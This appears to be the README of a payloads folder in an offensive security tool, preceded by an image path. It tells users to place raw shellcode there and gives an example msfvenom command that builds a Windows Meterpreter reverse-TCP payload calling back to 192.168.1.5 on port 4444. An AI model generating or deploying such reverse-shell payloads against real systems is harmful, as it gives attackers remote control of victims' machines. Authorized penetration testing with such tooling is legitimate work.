 # Payloads Directory

Place your raw shellcode files (e.g., generated from `msfvenom`) in this directory.

**Example msfvenom command:**
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.5 LPORT=4444 -f raw -o beacon.bin
```
